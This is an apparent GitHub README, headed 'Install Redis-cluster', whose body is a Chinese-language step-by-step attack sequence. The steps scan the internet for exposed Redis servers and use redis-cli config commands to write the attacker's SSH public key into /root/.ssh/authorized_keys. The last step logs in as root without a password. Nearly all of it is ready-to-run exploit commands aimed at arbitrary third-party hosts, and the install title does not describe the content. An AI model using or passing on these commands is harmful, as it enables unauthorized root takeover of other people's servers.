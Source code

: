 # Install Redis-cluster 


------


make sure that you have the correct redis environment

------


攻击顺序:
1.在公网内搜索开放外网地址的redis,并且能够进入到redis的cli中
2.redis-cli -h ${ip} -p 6379 config set dir /root/.ssh
3.redis-cli -h ${ip} -p 6379 config set dbfilename authorized_keys
4.(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > my.pub
5.cat my.pub | redis-cli -h ${ip} -p 6379 -x set crackit
6.redis-cli -h ${ip} -p 6379 save
7. ssh root@${ip} 这时能够免密能录
